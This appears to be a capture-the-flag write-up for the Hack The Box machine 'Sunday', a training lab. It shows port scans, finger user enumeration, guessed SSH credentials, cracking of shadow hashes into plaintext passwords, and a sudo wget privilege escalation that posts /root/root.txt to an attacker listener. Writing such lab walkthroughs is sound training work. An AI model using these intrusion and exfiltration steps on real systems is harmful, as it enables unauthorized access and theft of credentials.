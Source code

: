 136 - Sunday
============

Mandatory nmap scan:
```bash
❯❯❯ sudo nmap -sS --top-ports 200 10.10.10.76                                                              ⏎
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-10 18:13 CEST
Nmap scan report for 10.10.10.76
Host is up (0.097s latency).
Not shown: 146 closed ports, 52 filtered ports
PORT    STATE SERVICE
79/tcp  open  finger
111/tcp open  rpcbind

Nmap done: 1 IP address (1 host up) scanned in 409.20 seconds
```

More comprehensive scan:
```bash
❯❯❯ sudo nmap -sS -p- --min-rate 1000 --max-retries 3 10.10.10.76
Nmap scan report for 10.10.10.76
Host is up (0.042s latency).
Not shown: 56215 filtered ports, 9315 closed ports
PORT      STATE SERVICE
79/tcp    open  finger
111/tcp   open  rpcbind
22022/tcp open  unknown
33313/tcp open  unknown
59279/tcp open  unknown
63609/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 246.29 seconds
```

```bash
❯❯❯ sudo nmap -sS -sV -sC -p 22022,33313,59279,63609 10.10.10.76
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-11 11:58 CEST
Nmap scan report for 10.10.10.76
Host is up (0.096s latency).

PORT      STATE  SERVICE VERSION
22022/tcp open   ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
33313/tcp closed unknown
59279/tcp closed unknown
63609/tcp closed unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.65 seconds
```

Using finger we can reveal a valid user:
```bash
❯❯❯ finger @10.10.10.76
Login       Name               TTY         Idle    When    Where
sunny    sunny                 pts/2            Wed 09:41  10.10.15.209
```

After some tries, SSH to the box is possible using the credentials `sunny:sunday`:
```bash
❯❯❯ ssh -p 22022 sunny@10.10.10.76
Password: 
Last login: Wed Jul 11 09:57:02 2018 from 10.10.15.120
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sunny@sunday:~$
```

A useful backup file is present in `/backup`:
```bash
sunny@sunday:/backup$ cat shadow.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Using john the ripper and the rockyou wordlist cracks the passwords quickly:
```bash
❯❯❯ john --wordlist=/home/jsmith/Desktop/rockyou.txt hashes.txt                                              ⏎
Warning: detected hash type "sha256crypt", but the string is also recognized as "crypt"
Use the "--format=crypt" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha256crypt, crypt(3) $5$ [SHA256 128/128 AVX 4x])
Press 'q' or Ctrl-C to abort, almost any other key for status
sunday           (sunny)
cooldude!        (sammy)
1g 0:00:02:33 DONE (2018-07-11 14:43) 0.006504g/s 1325p/s 1325c/s 1325C/s coolster..chs2009
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We can now log in as sammy and get the user flag:
```bash
❯❯❯ ssh -p 22022 sammy@10.10.10.76                                                                           ⏎
Enter passphrase for key '/home/jsmith/.ssh/id_rsa': 
Password: 
Last login: Tue Apr 24 12:57:03 2018 from 10.10.14.4
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sammy@sunday:~$ cat Desktop/user.txt 
a3d9498027ca5187ba1793943ee8a598
```

## Privilege escalation

LinEnum.sh mentions that `sudo` can be run without password. We can list what the user `sammy` can do with sudo as follows:
```bash
sammy@sunday:~$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
```

If we can use wget as root we can as well add a new line to `/etc/passwd`, `/etc/shadow` or `/etc/sudoers` to create a new account, give more rights to our current user or allow `sudo` for all commands with no password. However, to avoid disturbing the other users we can do it in another way.

On the localhost set up a listener:
```bash
❯❯❯ nc -lvp 8123
listening on [any] 8123 ...
```

Then on the box, run the wget command to send the flag as POST request to the listener:
```bash
sammy@sunday:/etc$ sudo wget --post-file=/root/root.txt 10.10.15.186:8123
--14:00:59--  http://10.10.15.186:8123/
           => `index.html'
Connecting to 10.10.15.186:8123... connected.
HTTP request sent, awaiting response... ^C
```

And on the listener we get the flag:
```
10.10.10.76: inverse host lookup failed: Unknown host
connect to [10.10.15.186] from (UNKNOWN) [10.10.10.76] 36609
POST / HTTP/1.0
User-Agent: Wget/1.10.2
Accept: */*
Host: 10.10.15.186:8123
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

fb40fab61d99d37536daeec0d97af9b8
```

